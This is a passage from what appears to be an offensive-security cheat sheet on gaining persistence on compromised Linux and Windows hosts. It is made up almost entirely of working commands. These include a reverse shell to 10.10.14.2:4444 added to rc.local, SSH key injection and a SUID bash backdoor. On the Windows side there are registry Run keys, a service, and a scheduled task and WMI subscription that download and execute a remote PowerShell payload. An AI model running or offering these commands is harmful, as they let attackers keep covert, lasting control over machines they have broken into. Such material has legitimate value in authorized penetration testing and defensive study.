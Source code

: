 ```bash
echo "bash -i >& /dev/tcp/10.10.14.2/4444 0>&1 &" >> /etc/rc.local
chmod +x /etc/rc.local
```

**🔹 SSH Key Injection**

```bash
mkdir -p ~/.ssh
echo "your_public_key_here" >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```

**🔹 Backdoor with SUID Shell**

```bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

Then later:

```bash
/tmp/rootbash -p
```

***

#### 🧩 2. Windows Persistence

**🔹 Registry Autorun**

```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "C:\payload.exe" /f
```

**🔹 Scheduled Task**

```powershell
schtasks /create /sc onlogon /tn "Backdoor" /tr "powershell.exe -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/p.ps1')"
```

**🔹 Service Creation**

```powershell
sc create Backdoor binpath= "C:\rev.exe" start= auto
net start Backdoor
```

**🔹 WMI Event Subscription (Stealth)**

```powershell
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="filt",EventNamespace="root\cimv2",QueryLanguage="WQL",Query="SELECT * FROM __InstanceCreationEvent WITHIN 10 WHERE TargetInstance ISA 'Win32_Process'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="cons",CommandLineTemplate="powershell.exe -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/p.ps1')"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name='filt'",Consumer="CommandLineEventConsumer.Name='cons'"
```
